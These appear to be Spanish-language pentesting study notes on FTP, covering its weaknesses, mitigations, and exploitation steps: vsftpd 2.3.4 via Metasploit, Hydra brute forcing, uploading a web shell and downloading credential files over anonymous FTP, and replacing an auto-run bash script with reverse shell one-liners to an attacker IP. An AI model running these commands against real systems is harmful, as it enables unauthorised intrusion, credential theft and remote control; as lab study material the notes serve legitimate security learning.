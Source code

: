 
---
**Definición:**  
Protocolo usado para **transferir archivos** entre un cliente y un servidor en una red TCP/IP. Funciona por defecto en el **puerto 21** y permite subir, descargar o gestionar archivos. No cifra la información por sí mismo.

---
### **Vulnerabilidades comunes:**

- **Sin cifrado:** las credenciales viajan en texto plano.
- **Acceso anónimo:** puede exponer archivos sensibles.
- **Fuerza bruta:** contraseñas débiles pueden ser adivinadas.
- **Enumeración de archivos:** permite listar directorios.
- **Man-in-the-Middle:** posible interceptación de datos.

✅ **Mitigación:** usar **FTPS o SFTP**, desactivar acceso anónimo y emplear contraseñas seguras.


---
### Explotación y Vulnerabilidades Comunes

#### vsftpd 2.3.4

- Se puede explotar mediante el escaneo de vulnerabilidades de [[Nmap]] , se puede setear su exploit en [[Metasploit]]

![[Pasted image 20251018143545.png]]

#### Hydra

- Generalmente es susceptible a ataques de fuerza bruta empleando [[Hydra]] 

--- 
#### Ingreso con usuario Proporcionado

```bash
ftp <Ipvictima>  # Iniciamos sesion por ftp , el Usuario que pediran lo normal es que sea anonymous y la contraseña vacia (ENTER)
ftp > 
	put shell.aspx # Subimos la shell a los archivos del sitio web
	get credenciales.txt # Descargar cualquier archivo 
```


- Iniciando con usuario proporcionado si vemos que se esta ejecutando automáticamente un script de bash, podemos copiarle el codigo de una reverse shell para que se autoejecute, el que funciona es el siguiente

*Tener en cuenta no eliminar el archivo que esta sino que solo con el comando put poner el nuevo y asi solo editar*
```bash

#!/bin/bash
 
sh -i >& /dev/tcp/10.23.197.56/443 0>&1          # Esta en la reverse shell comun

bash -i >& /dev/tcp/10.23.197.56/443 0>&1        # Este es el codigo que normalmente se ejecuta si no se tiene instalado en el servidor victima                                                  la primera 

```